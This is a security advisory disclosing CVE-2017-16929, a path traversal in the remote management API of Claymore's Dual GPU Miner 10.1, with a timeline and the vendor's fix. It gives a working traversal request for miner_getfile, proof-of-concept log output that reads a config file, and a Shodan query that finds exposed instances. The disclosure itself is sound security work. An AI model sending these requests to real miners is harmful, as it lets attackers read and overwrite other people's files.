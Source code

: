 VuNote
===================

	Author:       <github.com/tintinweb>
	Ref:          https://github.com/tintinweb/pub/tree/master/pocs/cve-2017-16929
	Version:      0.2
	Date:         Nov 30th, 2017

	Tag:          claymore dual ethereum decred crypto currency miner

Overview
--------

	Name:         Claymore's Dual ETH + DCR/SC/LBC/PASC GPU Miner
	Vendor:       nanopool/claymore
	References:   * https://github.com/nanopool/Claymore-Dual-Miner
	              * https://bitcointalk.org/index.php?topic=1433925.0

	Version:        10.1 [2]
	Latest Version: 10.1 [2]
	Other Versions: <= 10.1
	Platform(s):    windows, linux
	Technology:     C/C++

	Vuln Classes:   CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')
	Origin:         remote
	Min. Privs.:    authenticated

	Source:         Closed; runtime protection mechanisms

	CVE:	        CVE-2017-16929




Description
---------

A specialized mining solution with remote management interface for mining ethereum / decred / siacoin / LBRY Credits /
pascal coin.

quote website [1][2]

        - Supports new "dual mining" mode: mining both Ethereum and Decred/Siacoin/Lbry/Pascal at the same time, with no impact on Ethereum mining speed. Ethereum-only mining mode is supported as well.
        - Effective Ethereum mining speed is higher by 3-5% because of a completely different miner code - much less invalid and outdated shares, higher GPU load, optimized OpenCL code, optimized assembler kernels.
        - Supports both AMD and nVidia cards, even mixed.
        - No DAG files.
        - Supports all Stratum versions for Ethereum: can be used directly without any proxies with all pools that support eth-proxy, qtminer or miner-proxy.
        - Supports Ethereum and Siacoin solo mining.
        - Supports both HTTP and Stratum for Decred.
        - Supports both HTTP and Stratum for Siacoin. Note: not all Stratum versions are supported currently for Siacoin.
        - Supports Stratum for Lbry and Pascal.
        - Supports failover.
        - Displays detailed mining information and hashrate for every card.
        - Supports remote monitoring and management.
        - Supports GPU selection, built-in GPU overclocking features and temperature management.
        - Supports Ethereum forks (Expanse, etc).
        - Windows and Linux versions.

Summary
-------

"FOMO driven security blindness."


The remote management interface on the Claymore Dual GPU miner 10.1 is vulnerable to an authenticated relative directory
traversal vulnerability exploited by issuing a specially crafted remote management request, allowing a remote attacker
to read/write arbitrary files due to missing path validation/sanitation.

* API calls
 * miner_getfile (read)  ... read any file
 * miner_file (write)    ... write any file

conditions:
* authenticated
* write: *not* in readonly mode

Successful exploitation would allow an authenticated user to read/write arbitrary files (process permissions)

See attached PoC.

Details
-------

Service Discovery:
* shodan: 'eth result' lists about 170-240 publicly available instances [3] with significant hash power
* banner:

        <html><body bgcolor="#000000" style="font-family: monospace;">
        {"result": ["10.1 - ETH", "4286", "149336;7492;0", "30620;29877;28285;30605;29946", "0;0;0", "off;off;off;off;off", "62;65;51;64;61;75;51;67;62;72", "eth-us-east1.nanopool.org:9999", "0;1;0;0"]}<br><br><font color="#ff0000">Remote management: read-only mode, command miner_file ignored
        </font><br><font color="#00ff00">ETH: 11/22/17-15:28:38 - SHARE FOUND - (GPU 3)
        ....

Remote Management API overview:

    # >nc -L -p 3333
    {"id":0,"jsonrpc":"2.0","method":"miner_getstat1"}
    {"id":0,"jsonrpc":"2.0","method":"miner_file","params":["epools.txt","<encoded>"]}
    {"id":0,"jsonrpc":"2.0","method":"miner_getfile","params":["config.txt"]}
    {"id":0,"jsonrpc":"2.0","method":"miner_restart"}
    {"id":0,"jsonrpc":"2.0","method":"miner_reboot"}
    {"id":0,"jsonrpc":"2.0","method":"control_gpu","params":["0", "1"]}
    {"id":0,"jsonrpc":"2.0","method":"control_gpu","params":["-1", "0"]}
    {"id":0,"jsonrpc":"2.0","method":"control_gpu","params":["0", "2"]}
    {"id":0,"jsonrpc":"2.0","method":"miner_file","params":["config.txt","<encoded>"]}
    {"id":0,"jsonrpc":"2.0","method":"miner_file","params":["dpools.txt","<encoded>"]}


Directory Traversal:

* `miner_file` and `miner_getfile`

both commands do not seem to attempt to sanitize the provided path in any way allowing for relative path traversal.

    # Vector: traversal
    # Description: path traversal
    # Result: retrieves any file
    "traversal": {"id":0,
             "jsonrpc":"2.0",
             "method":"miner_getfile",
             "params":["../Claymore.s.Dual.Ethereum.Decred_Siacoin_Lbry_Pascal.AMD.NVIDIA.GPU.Miner.v10.0/config.txt"]}, ##<<-- path travesal

//see PoC vector: traversal

See attached PoC.

Proof of Concept
----------------

Prerequisites:
* compatible AMD/NVidia hardware

1. start miner in read/write mode with no passwort being set for testing

    #> EthDcrMiner64.exe -epool http://192.168.0.1:8545 -mport 3333
    ...

2. run poc.py --vector=traversal <target> (we expect EthDcrMiner64.exe to be placed in a directory called `/Claymore.s.Dual.Ethereum.Decred_Siacoin_Lbry_Pascal.AMD.NVIDIA.GPU.Miner.v10.0`)

    [poc.py -             <module>() ][    INFO] --start--
    [poc.py -             <module>() ][    INFO] # Claymore's Dual ETH + DCR/SC/LBC/PASC GPU Miner - Remote Buffer Overwrite
    [poc.py -             <module>() ][    INFO] # github.com/tintinweb
    [poc.py -         iter_targets() ][ WARNING] shodan apikey missing! shodan support disabled.
    [poc.py -             <module>() ][    INFO] [i] Target: 127.0.0.1:3333
    [poc.py -             <module>() ][    INFO] [+] connected.
    [poc.py -             <module>() ][   DEBUG] <-- 1048 '{"id": 0, "error": null, "result": ["../Claymore.s.Dual.Ethereum.Decred_Siacoin_Lbry_Pascal.AMD.NVIDIA.GPU.Miner.v10.0/config.txt", "<encoded file data>"]}'
    [poc.py -             <module>() ][    INFO] --done--

3. EthDcrMiner returned the files content, as shown in the logs.

    ...
     DCR: 11/22/17-22:56:06 - New job from pasc-eu2.nanopool.org:15555
    Remote management: file ..\Claymore.s.Dual.Ethereum.Decred_Siacoin_Lbry_Pascal.AMD.NVIDIA.GPU.Miner.v10.0\config.txt was uploaded
     DCR: 11/22/17-22:56:16 - New job from pasc-eu2.nanopool.org:15555
    ...

Patch
-----

    n/A - closed source :/

Notes
-----

* Timeline

    11/22/2017 - vendor contact: report sent
    11/23/2017 - vendor response:
                 fixed version 10.2 ready and publicly available
                 request for 7+ day embargo
                 vendor statement:
                       The root case is that remote management was designed to be used in local network only.
                       But some "smart" people want to share ports to everyone and then catch problems. I will close
                       the issues you found, but attacker will be able to do something bad anyway, at least execute ddos
                       to prevent remote management work as expected.
    12/04/2017 - public disclosure

* Vendor Changelog

Latest version is v10.2:

        - fixed critical issues in remote management feature (attacker could crash miner even in read-only mode).
        - now miner supports up to #299 epoch.
        - in rare cases ADL API calls can hang, now watchdog checks it as well.
        - improved "-minspeed" option, check readme for details.
        - added "miner_getstat2" command to remote management, check "API.txt" for details.
        - EthMan: added detailed stats mode in main window.
        - a few minor improvements in both miner and EthMan.

* Runtime Protection

    * Linux: packer / just compression
     * gdb
    * Windows: protector / anti-debug, vmprotect?
     * x64dbg: DbgUiRemoteBreakin <- RET

References
----------

	[1] https://github.com/nanopool/Claymore-Dual-Miner
	[2] https://bitcointalk.org/index.php?topic=1433925.0
    [3] https://www.shodan.io/search?query=eth+result

Contact
-------

	https://github.com/tintinweb
